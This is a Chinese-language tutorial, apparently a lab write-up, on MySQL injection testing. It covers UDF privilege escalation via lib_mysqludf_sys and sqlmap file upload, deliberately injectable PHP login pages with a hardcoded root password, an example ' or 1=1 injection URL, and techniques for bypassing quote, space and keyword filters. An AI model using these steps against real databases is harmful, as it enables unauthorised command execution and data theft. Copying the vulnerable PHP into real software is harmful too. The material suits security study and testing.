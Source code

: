 ﻿# mysql注入测试



---
## 一、基础注入环境 ##

###1.udf提权环境：###

    安装mysql：
    sudo apt-get install mysql-server
    sudo apt-get isntall mysql-client
    sudo apt-get install libmysqlclient-dev \\安装开发包
    安装apache：
    sudo apt-get install apache2
    安装php：
    sudo apt-get install php5

###2.绕过测试时使用wamp server即可。###

 
----------


## 二、UDF提权 ##

测试版本：Ubuntu14.04  mysql 5.5
----------


### 1.什么是UDF提权 ###
    

udf是MySQL的一个共享库，通过udf创建能够执行系统命令的函数sys_exec、sys_eval，使得入侵者能够获得一般情况下无法获得的shell执行权限。

### 2.提权条件###
获得具有一定权限的mysql账号密码，一般为root账户。

###3.提权过程 ###

 1. 得到插件库路径 
 2. 找对应操作系统的udf库文件：lib_mysqludf_sys.so（windows是对应的dll文件）
 3. 利用udf库文件加载函数并执行命令

具体步骤如下：
***1.找到MySQL插件目录:***

    mysql> show variables like "%plugin%";
    +---------------+------------------------+
    | Variable_name | Value                  |
    +---------------+------------------------+
    | plugin_dir    | /usr/lib/mysql/plugin/ |
    +---------------+------------------------+
    1 row in set (0.00 sec)

/usr/lib/mysql/plugin/即为插件目录。mysql5.1以后必须将lib_mysqldf_sys.so放入插件目录下才能创建函数。

***2.查看操作系统的版本，并下载相应版本的udf文件：***


    mysql> system uname -a
    Linux fuyao 4.2.0-27-generic #32~14.04.1-Ubuntu SMP Fri Jan 22 15:32:26 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux

> 可以看到mysql 中使用system即可执行系统命令。所以mysql用户的权限过大的话，甚至chmod命令都可以执行，风险也就非常大。




可以看出操作系统为linux64位的，然后下载相应版本的udf文件。([https://github.com/mysqludf/lib_mysqludf_sys#readme][1])


**直接从网上下载的.so文件可能会不生效，mysql会报错，所以建议在自己的linux64位虚拟机里对文件的源码（.c）文件进行编译。编译命令为：
`gcc -DMYSQL_DYNAMIC_PLUGIN -fPIC -Wall -I/usr/include/mysql -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so`
，使用生成的.so 文件进行操作。具体原因的话我猜测其他版本的系统编译出来的文件不具有普遍适用性。**接下来把.so文件导入到mysql插件目录就可以了。
  
  

> 这里就要说一下神器sqlmap了，执行sql语句和文件上传的功能都可以用sqlmap实现 ：
>   
> 
> python sqlmap.py -u 'http://xxxx' --sql-shell   show variables like
> "%plugin%";       \\\执行sql语句     
python sqlmap.py -u 'http://xxxx'
> --file-write=/lib_mysqludf_sys.so    --file-dest=/usr/lib/mysql/plugin/\\\上传文件

  ***3. 利用udf库文件加载函数并执行命令***
 

    CREATE FUNCTION sys_eval RETURNS string SONAME 'lib_mysqludf_sys.so';\\创建函数

![此处输入图片的描述][2]

    

    


## 三、基础防护绕过 ##
1.login.html
用来显示登录页面，用户输入序号和学号后，进入checkuser.php来核对输入是否正确。

    <html>
    <head>
    <title>登录</title>
    <meta http-equiv="content-type" content="text/html;charset=utf-8">
    </head>
    <body>
    <form method=post action=checkuser.php>
    序号：<input type=text name=id  ><br>
    学号：<input type=password name=number > <br>
    <input type=submit name=btn value=登录>
    </form>
    </body>
    </html>
    
![此处输入图片的描述][3]
2.checkuser.php
用来检验用户输入的序号和学号是否正确，若不正确则显示输入错误，可重新输入，若输入正确即可成功登录至a.php页面。可注入。

        <?php
        header("Content-type: text/html;charset=utf-8");
        error_reporting(E_ALL || ~E_NOTICE);
        $link=mysql_connect("localhost","root","as971226") or die("link fail");
    mysql_query("set names 'utf8'");//读库
    mysql_select_db("fuyao",$link)or die("select_db fail");
        $id=$_POST["id"]; 
        $number=$_POST["number"];
        $str="select count(*) from test1 where id='$id' and number='$number';";
    echo $str;
        $query=mysql_query($str,$link) or die("无法执行sql语句");
    list($mycount)=mysql_fetch_row($query);
    if($mycount==0)
        {
    	echo "序号或学号错误！！！！！！";
    	echo "$name---$number";
    	include"login.html";
    	exit;
        }
        else
    	header("location:http://localhost/a.php?id=$id&number=$number");
        ?>
![此处输入图片的描述][4]
3.a.php
此页面用于显示用户信息，可注入。

        <?php
        header("Content-type: text/html;charset=utf-8");
        error_reporting(E_ALL || ~E_NOTICE);
        $id = $_GET['id'];
        $number=$_GET['number'];
        echo "执行的sql语句为：" ;
        echo "select * from test1 where id='" . $id . "'and number='".$number."';"."<br/>";
        echo "<hr>";
        $mysqli = new mysqli('127.0.0.1','root','as971226','fuyao'); 
    if(mysqli_connect_errno())
    {
        printf("连接失败:%s<br>",mysqli_connect_error());
        exit();
    }
    $result = $mysqli->query("select * from test1 where id='$id' and number='$number';");
    while(list($id,$college,$number,$name,$str1,$str2)=$result->fetch_row())
        {
            echo "用户ID：" . $id . "<br/>";
        echo "用户密码：" . $number . "<br/>";
        }
        $result->close();
    $mysqli->close();
    
        ?>
![tu3][5]

### 1.过滤单引号 ###
在a.php中增加如下代码：

    $id=str_replace("'",'',$id);
    $number=str_replace("'",'',$number);
查询语句为：

    select * from test1 where id='$id' and number='$number';
所以基本无法绕过。
###  2.过滤空格  ###
过滤之前访问此url：`http://localhost/a.php?id=3&number=1' or 1=1;%23`
即可完成注入。
![此处输入图片的描述][6]


现在在a.php中加入如下代码，过滤空格：

    $id=str_replace(" ",'',$id);
    $number=str_replace(" ",'',$number);
再次访问原来的url发现注入失败。
![此处输入图片的描述][7]


> 绕过方法：

***1.括号绕过***
![此处输入图片的描述][8]


***2.注释符绕过***
![此处输入图片的描述][9]


***3.换行符、TAB(%0A、%09)绕过***
![此处输入图片的描述][10]


### 3、过滤关键词 ###
***1.大小写绕过***

![此处输入图片的描述][11]


***2.用||和&&代替 or和and***

![此处输入图片的描述][12]


***3.多重嵌套绕过***

![此处输入图片的描述][13]


  [1]: https://github.com/mysqludf/lib_mysqludf_sys#readme
  [2]: http://www.xfcxc.top/Adgainai4/012.png
  [3]: http://www.xfcxc.top/Adgainai4/001.png
  [4]: http://www.xfcxc.top/Adgainai4/002.png
  [5]: http://www.xfcxc.top/Adgainai4/003.png
  [6]: http://www.xfcxc.top/Adgainai4/004.png
  [7]: http://www.xfcxc.top/Adgainai4/005.png
  [8]: http://www.xfcxc.top/Adgainai4/006.png
  [9]: http://www.xfcxc.top/Adgainai4/007.png
  [10]: http://www.xfcxc.top/Adgainai4/008.png
  [11]: http://www.xfcxc.top/Adgainai4/009.png
  [12]: http://www.xfcxc.top/Adgainai4/010.png
  [13]: http://www.xfcxc.top/Adgainai4/011.png